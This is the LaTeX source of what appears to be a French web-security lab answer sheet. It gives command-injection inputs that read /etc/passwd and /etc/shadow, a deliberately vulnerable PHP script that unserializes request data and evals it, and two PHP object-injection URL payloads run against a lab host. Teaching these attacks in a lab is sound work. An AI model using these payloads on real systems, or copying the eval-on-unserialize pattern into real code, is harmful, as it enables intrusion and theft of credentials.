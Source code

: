 \documentclass[a4paper]{article}
\begin{document}
\begin{itemize}
\item Command Injection - Détournez la page pour afficher le contenu de /etc/passwd:
\begin{example}
    Entrer la commande: \texttt{127.0.0.1; cat /etc/passwd}
\end{example}


\item Command Injection - Essayez d’afficher le contenu de /etc/shadow. Est-ce que cela fonctionne? Pourquoi?
\begin{example} \begin{itemize}
    \item Entrer la commande: \texttt{127.0.0.1; cat /etc/shadow}
    \item Ça ne fonctionne pas car l'utilisateur qui exécute la commande (www-data) n'a pas les privilèges suffisants.
\end{itemize} \end{example}


\item Désérialisation non sécurisée et injection de code - Suivez la première partie de ce tutoriel afin d’afficher le contenu du fichier /etc/passwd en exploitant un objet sérialisé:
\begin{lstlisting}[style=php]
<?php
    class PHPObjectInjection {
        public $inject;
        function __wakeup() {
            if( isset($this->inject) ) {
                eval($this->inject);
            }
        }
    }
    if( isset($_REQUEST['r']) ) {  
        $var1 = unserialize($_REQUEST['r']);
        if( is_array($var1) ) {
            echo "<br/>" . $var1[0] . " - " . $var1[1];
        }
    } else {
        echo ""; # nothing happens here
    }
?>
\end{lstlisting}
\begin{example} \begin{itemize}
\item Première possibilité:
\begin{verbatim}
http://10.0.2.16/code-injection.php?r=
    O:18:"PHPObjectInjection":1:{s:6:"inject";
    s:23:"include('/etc/passwd');";}"
\end{verbatim}
\item Deuxième possibilité:
\begin{verbatim}
http://10.0.2.16/code-injection.php?r=
    O:18:"PHPObjectInjection":1:{s:6:"inject";
    s:26:"system('cat%20/etc/passwd');";}"
\end{verbatim}
\end{itemize} \end{example}



\end{itemize}
\end{document}
